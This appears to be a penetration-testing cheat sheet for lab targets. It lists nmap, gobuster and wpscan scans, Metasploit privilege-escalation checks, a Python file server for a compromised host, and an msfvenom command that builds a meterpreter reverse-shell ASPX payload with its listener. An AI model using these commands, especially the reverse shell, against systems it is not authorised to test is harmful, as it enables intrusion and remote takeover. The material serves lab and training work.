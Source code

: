 # Scanning

#### Nmap
The following is a list of .nse scrips and cheat sheets for nmap
```
$ nmap -sC -sV -oA nmap/OUTPUT 10.10.10.125
```
The following syntax is used for vulnerability scans within nmap
```
$ nmap --script vuln -oA nmap/OUTPUT 10.10.10.125
$ nmap --script http-enum --script-args http-enum.fingerprintfile=./myfingerprints.txt -p80 <target>  
```
#### Gobuster
Directory busting with gobuster
```
$ sudo gobuster dir -u http://10.10.10.68 -w ~/red-team/wordlists/directory-list-2.3-medium.txt
```
#### WordPress
The following tool will scan a wordpress site for known vulnerabilities and configuration items:
```
$ sudo wpscan --url https://example.com --disable-tls-checks
```
#### Manual Tricks
If 443 is open check the certificate for alternative Virtual hosts that the cert may work on.
If you find that the certificate is good for multiple subdomains/virtual hosts add them to your host file with the following command.
```
$ vi /etc/hosts

127.0.0.1         localhost
127.0.0.2         kali
10.10.10.123      www.example.com
```
# Privilege Escalation

### Windows
First lets check system info with the folloing commands.
```
C:\Users\user\Desktop> systeminfo
```
msf exploit checker:
```
msf exploit > use post/multi/recon/local_exploit_suggester
msf exploit > set SESSION 1
msf exploit > run
```
### Linux
First steps to go from low-privilege user to root on a linux box.

Start a python http server to transfer files to the compromised machine. Note that this command will host files in your current directory, so make sure you copy all files before running the python SimpleHTTPServer.
```
$ sudo python -m SimpleHTTPServer 80
```
# Meterpreter
Use the following to created a meterpreter shell for reverse_tcp for Windows
```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=4444 -f aspx -o exploit.aspx

msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp
```
